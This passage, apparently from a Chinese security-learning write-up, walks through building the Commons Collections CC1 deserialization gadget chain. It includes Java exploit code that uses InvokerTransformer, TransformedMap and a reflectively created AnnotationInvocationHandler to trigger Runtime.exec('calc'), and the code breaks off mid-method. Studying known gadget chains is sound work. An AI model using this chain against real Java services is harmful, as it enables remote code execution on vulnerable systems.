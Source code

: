 那我们就重点来关注这个`AnnotationlnvocationHandler`类中我们有什么可控的点，在他的构造函数中我们可以发现，`Map`我们完全可控，那我们就可以将前面的`transformedmap`构造进去：

但是这里注意一点，这里没有表明`public`类，所以我们只能通过反射来进行获取：

```plain
package sun.reflect.annotation;
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
```